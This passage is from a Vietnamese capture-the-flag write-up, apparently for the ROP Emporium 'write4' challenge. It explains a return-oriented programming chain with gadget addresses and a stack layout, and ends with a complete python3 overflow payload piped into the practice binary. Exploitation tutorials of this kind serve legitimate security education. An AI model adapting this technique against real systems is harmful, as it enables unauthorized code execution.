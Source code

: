 Sử dụng gadget `pop r14; pop r15; ret;`  sẽ lấy lần lượt vị trí kế trong stack lưu vào r14 (địa chỉ vaddr của .data section vì nó có quyền ghi -rw-) và kế sau lưu vào r15 (chuỗi “flag.txt” vừa đủ 8 byte nên ta không cần thêm)

Sau đó ta gọi gadget `mov qword ptr [r14], r15; ret;` để lấy giá trị trong r15 lưu tại vị trí tại địa chỉ lưu trong r14 cũng chính là .data section.

Cuối cùng là truyền địa chỉ vào arg1 bằng gadget `pop rdi; ret;` với địa chỉ của .data section

Ta sẽ build stack như sau:

```text-plain
[A*8  ]
[.....]
[A*8  ] -> 40*A
[0x400690] -> pop r14; pop r15; ret;
[0x601028] -> -rw- .data -> r14
[b'flag.txt'] -> 8 byte "flag.txt" -> r15
[0x400628] -> mov qword ptr [r14], r15; ret; -> lấy 'flag.txt' lưu vào .data
[0x400693] -> pop rdi; ret; -> arg1
[0x601028] -> -rw- .data -> địa chỉ lưu 'flag.txt' -> arg1
[0x4004e6] -> ret;
[0x400510] -> print_file(*rdi);
```

Truyền payload vào binary

```text-plain
python3 -c "import sys;sys.stdout.buffer.write(b'A'*40 + b'\x90\x06\x40\x00' + b'\x00'*4 + b'\x28\x10\x60\x00' + b'\x00'*4 + b'flag.txt' + b'\x28\x06\x40\x00' + b'\x00'*4 + b'\x93\x06\x40\x00' + b'\x00'*4 + b'\x28\x10\x60\x00' + b'\x00'*4 + b'\xe6\x04\x40\x00' + b'\x00'*4 + b'\x10\x05\x40\x00' + b'\x00'*4)" | ./write4
```